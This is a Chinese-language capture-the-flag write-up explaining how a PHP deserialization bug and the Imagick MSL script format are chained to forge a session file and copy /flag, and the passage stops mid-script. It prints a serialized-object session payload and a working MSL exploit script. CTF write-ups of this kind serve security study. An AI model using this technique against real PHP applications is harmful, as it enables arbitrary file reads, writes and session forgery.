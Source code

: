 ```php
        highlight_file(__FILE__);
        break;
}
```

`open_basedir` 为当前目录以及 `/tmp` 。

存在反序列化漏洞，以及一个 `fumo_backdoor` 类。类中有两个魔法方法：

1. 在 `__wakeup` 可以执行一次任意无参函数以及新建任意类的对象。
2. 在 `__sleep` 可以读取文件，文件路径不可以出现 `flag` 四个字符。

`flag` 在 `/flag` 里，考虑如何触发`__sleep` 读取文件。当前环境下唯一存在序列化的地方就是 `session` ，所以要想办法控制 `session` 数据。

题目中存在 `imagick` 扩展，可以利用 `msl` 脚本文件来读取、写入文件。可参考`swarm`团队在2022年7月发布的[文章](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)。

现在存在三个问题，一是如何利用图片写入来写入一个 `session` ，二是如何将 `flag` 以图片形式读入随后再写出。三是 `nginx` 设置了限流，每分钟能请求的次数较少，且 `rm` 路由没有限制，很容易出现一部分人不断恶意请求 `rm` 路由删除 `session` 和临时文件，所以最后的 `poc` 必须尽可能一次性完成 `session` 的写入和 `flag` 的转移。

这里分别找到了两种图片格式。首先是 `ppm` 格式，可以较为容易写入 `session` ，且支持 `inline:base64` 。

```
# ppm格式的session
P6
32 1
255
...|O:13:"fumo_backdoor":4:{s:4:"path";s:9:"/tmp/ttt1";s:4:"argv";N;s:4:"func";N;s:5:"class";N;}
```

其次是 `RGB` 格式，可以读取、写入原生字符。这里存在一个问题， `RGB` 格式的默认色彩深度为16，那么每次会读取6个字符，如果 `flag` 长度不是6的倍数会无法一次性全部读取，且色彩深度无法在 `msl` 进行设置。为了解决这个问题，可以利用 `msl` 解析器的特性。因为 `msl` 是一种脚本语言，在遇到错误时停止执行。那么我们可以为不断其添加偏移，多次读写对 `copy` 的 `flag` 文件进行覆盖，直到报错，代表偏移已经超出范围。

需要吐槽的是， `msl` 的官方文档十分烂，很多的属性并没有列出，只能在源码中一探究竟。

最后编写的 `msl` 文件如下：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<group>
		<!-- step1: 写入session -->
    <image>
        <read filename="inline:data://image/x-portable-anymap;base64,{ppm_data}" />
        <write filename="/tmp/sess_afkl" />
    </image>

		<!-- step2: copy flag -->
    <image id="a1">
				<!-- 设置为RGB格式，读取flag -->
        <read size="{img_size}x1" filename="rgb:/flag"/>
    </image>
    <image id="w1">
				<!-- 设置一个空图片 -->
        <read size="10x10" filename="null:"/>
				<!-- 将空图片和flag数据进行拼接 -->
        <composite image="a1" geometry="+0"/>

        <write filename="rgb:/tmp/ttt1"/>
    </image>

    <image id="a2">
				<!-- 添加偏移后，读取flag -->
        <read size="{img_size}x1+1" filename="rgb:/flag"/>
    </image>
    <image id="w2">
        <read size="10x10" filename="null:"/>
        <composite image="w1" geometry="+0"/>
				<!-- 将上一张图片和这次读取的flag进行拼接 -->
```